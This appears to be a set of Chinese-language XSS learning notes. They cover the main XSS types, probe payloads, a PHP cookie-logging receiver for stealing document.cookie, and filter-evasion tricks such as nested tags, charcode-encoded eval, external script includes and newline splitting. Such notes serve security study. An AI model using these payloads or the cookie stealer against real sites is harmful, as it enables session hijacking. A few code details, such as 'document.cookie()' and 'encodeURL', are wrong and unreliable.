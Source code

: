 ## Cross-Site Scripting  
[同源策略](https://github.com/shinmao/Web-Security-Learning/blob/master/XSS/Same-Origin%20Policy.md)  
XSS是發生在前端的，讓瀏覽器去執行攻擊代碼。使用腳本附加在連結或文本中可以讀取本地cookie或者擷取封包, 常見的防禦手勢就是使用**http-only**來限制http protocol才能訪問cookie內容, 以及使用**https**安全協定!  
1. reflective xss (非持久型):  
Server 執行惡意腳本**立即**返回結果, 像是在link中加上script.  
2. stored xss (持久型):  
Forum或者留言板中, 在文本中加入script. (前端可能用ajax讀取內容   
3. DOM xss:  
在DOM元素中加入事件, 觸發script.  
注意: reflective型 以及 stored型 才會與server有互動，因為server需要解析惡意代碼，而DOM型則是完全由客戶端js執行。  

### XSS Vulnerability exists?
這裡先不談XSS探針...  
我習慣直接注入sciprt語句作測試，常見語句如下:  
```js
<script>alert(/1/);<script>
<script>a=prompt;a(1)</script>
<img src=1 onmouseover=alert(1)>
<img src=1 onerror=confirm(1)>
<img src="javascript:alert(1);">
<a href=1 onload=alert(1)>hi</a>
```
從上面我可以大致推斷攻擊代碼多為直接彈窗，或者觸發事件!  

### XSS and Cookie
Cookie format: ```key: value```  
當client端向server端發出請求時，server會回傳一個set-cookie的標頭  
```set-cookie(name, expires, path, domain, secure, httponly) // 除了name後面幾個參數不一定要給值```  
```expires```: 若未設定，則是**End of Browser Session**，瀏覽器一關閉就會刪除!  
```secure```: 限定在https中傳輸  
```httponly```: 限制js去存取cookie  
[cookie reference](https://www.csie.ntu.edu.tw/~r92092/html/tech/cookie.html)  
為了竊取cookie，我們通常會寫一個檔案去接收cookie，大致上觀念如下:  
```php
$cookie = $_GET['cookie'];
$log = fopen('hi.txt','a');
fwrite($log,$cookie);
```
之後我們只要構造攻擊中帶有cookie參數: ```cookie=document.cookie()```，便會在本地的hi.txt得到cookie.

### 常見限制 < 對抗手勢
* filter 對一些危險標籤做過濾  
  * 大小寫混用  
  * 一次過濾繞過 e.g.```<scr<script>ipt>```  
  * 不如換個方式不使用到限制字符 e.g.```<img src=1 onerror=alert(1)>```
* encode 轉譯危險標籤  
  * url encode: % + ASCII(hex) ```%3Cscript%3E```  
  補充js常見處理函式: ```escape()/unescape(), encodeURL()/decodeURL(), encodeURLComponent()/decodeURLComponent()```  
  * html encode  
  * unicode encode: %u + ASCII(hex)  
  * ascii encode  
  ```js
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
  // <script>alert(1)</script>
  ```
  String.fromCharCode() 將unicode字碼轉換成字串 [Manual](https://www.w3schools.com/jsref/jsref_fromCharCode.asp)  
  eval() 執行參數中的js語句 [Manual](https://www.w3schools.com/jsref/jsref_eval.asp)  
* length limit  
  * 外部引入自己的script ```<script src=".js"></script>```  
* 未過濾\n類符號  
```js
<img src="javvas
cript:
alert(/1/);">
```
